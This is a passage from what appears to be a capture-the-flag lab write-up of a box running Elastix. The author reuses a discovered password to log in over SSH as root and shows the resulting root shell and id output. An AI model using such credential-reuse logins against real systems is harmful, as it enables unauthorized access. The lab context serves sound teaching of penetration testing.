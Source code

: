 ![](pics/admin_panel.png)

### SSH

At this point I was curious if they used the password for EVERYTHING. So I tried to connect to ssh with root! And it worked! I got a root shell! 

```
└──╼ $ ssh -oKexAlgorithms=+diffie-hellman-group14-sha1 root@10.129.1.226
root@10.129.1.226's password: 
Last login: Tue Sep 29 12:10:12 2020

Welcome to Elastix 
----------------------------------------------------

To access your Elastix System, using a separate workstation (PC/MAC/Linux)
Open the Internet Browser using the following URL:
http://10.129.1.226

[root@beep ~]# id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
```
